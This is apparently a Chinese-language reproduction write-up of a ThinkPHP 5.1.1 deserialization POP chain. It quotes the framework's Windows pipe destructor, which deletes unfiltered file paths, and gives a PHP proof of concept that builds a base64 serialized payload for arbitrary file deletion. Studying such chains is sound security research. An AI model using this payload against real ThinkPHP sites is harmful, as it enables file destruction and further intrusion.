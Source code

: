 # Thinkphp 5.1.1 反序列化pop链构造

### 一、漏洞简介

5.1.1的代码实现和5.1.38不同，于是就有了这篇文章

### 二、漏洞影响

Thinkphp 5.1.1

### 三、复现过程

这个漏洞的起点是一个任意文件删除漏洞

$this->files内容没有过滤，可以传入任意数值。


```php
/thinkphp/library/think/process/pipes/Windows.php
public function __destruct()
    {
        $this->close();
        $this->removeFiles();
    }

 private function removeFiles()
    {
        foreach ($this->files as $filename) {
            if (file_exists($filename)) {
                @unlink($filename);
            }
        }
        $this->files = [];
    }
```

poc


```php
<?php
namespace think\process\pipes;
class Windows
{
    private $files = [];
    public function __construct()
    {
        $this->files = ['1.php'];
    }
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
```
